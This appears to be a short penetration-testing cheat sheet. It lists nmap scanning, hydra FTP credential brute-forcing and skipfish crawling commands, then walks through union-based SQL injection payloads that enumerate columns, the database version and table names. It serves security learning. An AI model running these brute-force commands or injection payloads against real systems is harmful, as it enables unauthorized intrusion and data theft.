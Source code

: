## nmap commands
- `nmap -sV -p <list of ports> <IP address>`: Lists all the services running on the ports

## hydra commands
- `hydra -C <username & password file> ftp://<IP address>`: Attempts to log in to the FTP service at the specified IP address using a list of username and password combinations provided in the file.

## skipfish commands
- `skipfish -o <Output file> <website url>`: Crawls the website to find all available directories
- `skipfish -o <Output file> -A <user>:<password> <website url>`: Crawls while logged in with HTML credentials

## SQL Injection
### SQL Injection in search fields
Lets say the search page is handled by a file named sql.php and the parameter is search.
Sql.php?search=pentesting
First thing we try is to search with single quote '
`Sql.php?search='`
If it retruns an error, then we know its vulnerable.
Our next step is to determine the number of columns starting from running a normal query
on the search box to get an idea.
Finding the number of columns:
`Sql.php?search=test' order by 1-- -` [In the search field: `test' ORDER BY 1-- -`]
or
`Sql.php?search=test' order by 1--` [In the search field: `test' ORDER BY 1--`]
We keep incrementing the number until we hit an error which indicates the number of columns.

Then we search for something similar to that below:
`Sql.php?search=pentesting' union select 1,1,1,1,1,1#` [In the search field: `pentesting' UNION SELECT 1,1,1,1,1,1-- -`]
or
`Sql.php?search=pentesting' AND 1 = 0 UNION ALL SELECT 1,1,1,1,1,1 FROM information_schema.tables WHERE 1=0 OR 1=1-- `
We continue adding '1's untill we don't receive any error from the page.
Only then we know how many columns by counting the '1's.

Then we try to find the database name, table names, columns of target table
`Sql.php?search=pentesting' union select 1,database(),@@version,1,1,1#`
or 
`Sql.php?search=pentesting' and 1 = 0 union all select 1,database(),@@version,1,1,1 from information_schema.tables where 1=0 OR 1=1-- -`

`Sql.php?search=pentesting' union select 1,table_name,1,1,1,1 from information_schema.tables#` [In the search field: `pentesting' UNION SELECT 1,table_name,1,1 FROM information_schema.tables-- -`]
